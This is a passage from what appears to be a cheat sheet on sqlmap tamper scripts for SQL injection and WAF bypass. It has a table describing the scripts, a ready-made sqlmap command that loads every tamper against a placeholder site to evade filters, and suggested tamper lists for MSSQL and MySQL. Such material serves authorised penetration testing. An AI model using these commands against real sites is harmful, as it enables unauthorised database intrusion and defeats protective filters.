 |space2mssqlhash.py | Replaces space character (' ') with a pound character ('#') followed by a new line ('\n') |
|space2mysqlblank.py | Replaces space character (' ') with a random blank character from a valid set of alternate characters |
|space2mysqldash.py | Replaces space character (' ') with a dash comment ('--') followed by a new line ('\n') |
|space2plus.py |  Replaces space character (' ') with plus ('+')  |
|space2randomblank.py | Replaces space character (' ') with a random blank character from a valid set of alternate characters |
|symboliclogical.py | Replaces AND and OR logical operators with their symbolic counterparts (&& and ||) |
|unionalltounion.py | Replaces UNION ALL SELECT with UNION SELECT |
|unmagicquotes.py | Replaces quote character (') with a multi-byte combo %bf%27 together with generic comment at the end (to make it work) |
|uppercase.py | Replaces each keyword character with upper case value 'INSERT'|
|varnish.py | Append a HTTP header 'X-originating-IP' |
|versionedkeywords.py | Encloses each non-function keyword with versioned MySQL comment |
|versionedmorekeywords.py | Encloses each keyword with versioned MySQL comment |
|xforwardedfor.py | Append a fake HTTP header 'X-Forwarded-For'|

# SQLMap Tamper Scripts (SQL Injection and WAF bypass) Tips
> Use and load all tamper scripts to evade filters and WAF :
~~~
sqlmap -u ‘http://www.site.com/search.cmd?form_state=1’ — level=5 — risk=3 -p ‘item1’ — tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
~~~
## General Tamper testing:
~~~
tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
~~~
## MSSQL:
~~~
tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
~~~
## MySQL:
~~~
tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
~~~
## Here lists of sqlmap Tamper scripts with with explanation
### apostrophemask.py
Function: Encoding quotation marks with utf8
Platform: All